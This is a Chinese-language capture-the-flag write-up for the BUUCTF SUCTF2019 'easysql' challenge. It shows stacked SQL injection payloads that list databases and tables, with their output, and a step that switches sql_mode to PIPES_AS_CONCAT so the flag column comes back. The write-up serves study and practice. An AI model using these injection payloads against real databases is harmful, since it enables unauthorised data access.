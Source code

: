 # T26 easysql

> 题目：BUUCTF [SUCTF2019]easysql

__0x00 审题__

打开题目，要求提交查询

Give me your flag, I will tell you if the flag is right. 

猜测是sql注入，检测一圈发现，输入字母符号和0，都没有回显，输入非零数字有回显：Array ( [0] => 1 ) 

尝试查询字段数：1' order by 4#,得到回显Nonono,像是存在过滤，但是证明应该是可以进行sql注入，采取堆叠注入


__0x01 解题__

1. 1;show databases;

```
Array ( [0] => 1 ) Array ( [0] => ctf ) Array ( [0] => ctftraining ) Array ( [0] => information_schema ) Array ( [0] => mysql ) Array ( [0] => performance_schema ) Array ( [0] => test ) 
```

切实可行

2. 1;show tables;

```
Array ( [0] => 1 ) Array ( [0] => Flag ) 
```
乘胜追击

3. 1;show columns from Flag;

回显nonono，又被拒绝了


* 解决方法：通过最初的只有非零数字有回显，推测||的存在

> 关于||，我们知道他作为逻辑运算符的含义（或），即为：a||b,有一方为真则返回真
> 猜测原题中：存在||，只有当我们输入非零数字才能满足，返回flag，猜测：select 输入||flag from Flag

因为这个‘或’的存在，让我们不好得到，现在不需要这个或的作用

4. set sql_mode=PIPES_AS_CONCAT

将||，的逻辑改为连接符

> concat()函数：将其中的数组合并输出

5. 1；set sql_mode=PIPES_AS_CONCAT；select 1；

> 拼接完成：select 1;set sql_mode=PIPES_AS_CONCAT;select 1||flag from Flag


__0x02 借鉴__

https://blog.csdn.net/bring_coco/article/details/108737434

https://blog.csdn.net/m0_62851980/article/details/124083026

__0x03 总结__

* 细致的观察与想象



